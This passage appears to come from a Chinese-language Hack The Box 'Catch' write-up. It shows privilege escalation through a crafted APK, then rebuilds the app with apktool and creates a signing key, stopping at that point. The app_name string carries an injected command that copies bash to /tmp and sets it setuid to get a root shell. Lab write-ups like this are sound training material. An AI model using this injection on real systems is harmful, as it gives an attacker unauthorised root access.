# 利用 APK 漏洞

让我们开始吧。首先在您选择的编辑器中打开字符串文件:

```
┌──(root㉿kali)-[~/htb/catch/catchv1.0]
└─# nano res/values/strings.xml
```

寻找这条线:

```
<string name="app_name">Catch</string>
```

将其更改为以下内容，或者您希望以 root 用户身份执行的任何内容:

```
<string name="app_name">Catch999;cp /bin/bash /tmp/pencer; chmod +s /tmp/pencer</string>
```

在这里，我将 bash 复制为 root 用户，修改权限，这样我就可以按照用户的意愿执行以获得 root shell。

我使用了[这个](https://medium.com/@sandeepcirusanagunla/decompile-and-recompile-an-android-apk-using-apktool-3d84c2055a82)指南来帮助我编译和签署我们的 apk。

让我们使用 apktool 编译 apk:

```
┌──(root㉿kali)-[~/htb/catch]
└─# java -jar apktool_2.6.1.jar b -f -d /root/htb/catch/catchv1.0 -o /root/htb/catch/catch_pencer.apk                   
I: Using Apktool 2.6.1
I: Smaling smali folder into classes.dex...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
I: Built apk...
```

注意:这与 Kali repo 中 apktool 的最新版本不兼容。那个是 2.5，你需要 2.6.1 才能工作，所以如果需要，从[这里](https://apktool.en.lo4d.com/download)抓取。

现在我们需要签字。首先生成我们的密钥:

```
┌──(root㉿kali)-[~/htb/catch]
└─# keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
Enter keystore password:  
Re-enter new password: 
What is your first and last name?
  [Unknown]:  1
What is the name of your organizational unit?
  [Unknown]:  1
What is the name of your organization?
  [Unknown]:  1
What is the name of your City or Locality?
  [Unknown]:  1
What is the name of your State or Province?
  [Unknown]:  1
What is the two-letter country code for this unit?
  [Unknown]:  us
Is CN=1, OU=1, O=1, L=1, ST=1, C=us correct?
  [no]:  yes
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 10,000 days
        for: CN=1, OU=1, O=1, L=1, ST=1, C=us
[Storing my-release-key.keystore]
```